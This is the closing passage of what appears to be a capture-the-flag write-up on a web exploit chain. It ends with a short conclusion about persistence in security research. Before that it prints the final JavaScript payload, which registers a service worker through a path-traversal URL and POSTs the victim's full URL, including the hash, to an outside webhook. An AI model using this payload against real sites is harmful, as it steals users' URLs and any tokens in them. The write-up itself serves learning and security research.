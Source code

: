 ```js
);

setTimeout(() => {
  if ("serviceWorker" in navigator) {
    navigator.serviceWorker.register(
      "/view_protected_note.js?id=/../../l-kkkk-kkkk-/../-/‥/api/track",
      { scope: "/", updateViaCache: "all" }
    );
    navigator.serviceWorker.addEventListener("message", (event) => {
      if (event.data.type === "LOG_URL") {
        const fullUrlWithHash = event.data.url + window.location.hash;
        console.log("Logged URL:", fullUrlWithHash);
        fetch("https://webhook..", {
          mode: "no-cors",
          method: "POST",
          body: JSON.stringify({ url: fullUrlWithHash }),
        });
      }
    });
  }
}, 3000);
```

## Conclusion
This challenge was an absolute rollercoaster, pushing me to my limits at every step. What seemed like minor details at first—a flexible regex, an unsanitised PostMessage, and a cacheable response—ended up being the key ingredients for a powerful exploit chain.

Most importantly, consistency works. There were multiple points where I got stuck, doubted myself, and even considered giving up. But taking breaks, re-evaluating hints, and persistently testing new ideas is what made the difference in the end. The key is to keep going.

This challenge reinforced my belief that security research isn’t just about knowledge—it’s about problem-solving, creativity, and persistence. And that’s exactly why I love doing this. 🚀

Until next time—```Happy Hacking!``` 🔥